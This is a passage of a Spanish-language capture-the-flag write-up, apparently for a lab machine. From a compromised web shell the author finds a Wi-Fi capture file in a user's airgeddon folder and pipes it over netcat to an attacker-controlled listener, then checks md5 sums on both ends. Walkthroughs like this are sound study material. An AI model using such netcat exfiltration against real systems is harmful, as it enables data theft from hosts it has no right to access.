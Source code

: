 ```bash
          collisions:0 txqueuelen:1 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

Vamos a dirigirnos a la ruta `/home/` y encontramos una carpeta del usuario `zeus`; nos metemos en dicha carpeta y vemos otra con nombre `airgeddon`, que investigando un poco, notamos que se trata de un programa para realizar auditorías Wi-Fi en Linux. Por lo tanto ingresamos en dicha carpeta y posterior a `captured`:

```bash
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ pwd
/home/zeus/airgeddon/captured
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ ls -l
total 296
-rw-r--r-- 1 zeus zeus 297917 Apr  8  2018 captured.cap
-rw-r--r-- 1 zeus zeus     57 Apr  8  2018 papyrus.txt
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ cat papyrus.txt 
Captured while flying. I'll banish him to Olympia - Zeus
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$
```

Aquí vemos dos archivos, uno `papyrus.txt` que contiene la leyenda `Captured while flying. I'll banish him to Olympia - Zeus` y otro `captured.cap`; por lo que nos indica que debemos de hacer algo que el archivo `.cap`, así que nos lo pasamos a nuestra máquina para analizarlo:

```bash
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ nc 10.10.14.16 4646 < captured.cap

^C
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$
```

```bash
❯ nc -nlvp 4646 > captured.cap
listening on [any] 4646 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.83] 40066
```

Esperamos unos segundos y cancelamos en la máquina víctima. Ahora vamos a validar que la información haya sido enviada correctamente:

```bash
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ du -hc captured.cap 
292K    captured.cap
292K    total
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ md5sum captured.cap 
2a86b639f23067dd95a5e0b5f616ef20  captured.cap
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$
```

```bash
❯ du -hc captured.cap
292K    captured.cap
292K    total
❯ md5sum captured.cap
2a86b639f23067dd95a5e0b5f616ef20  captured.cap
```
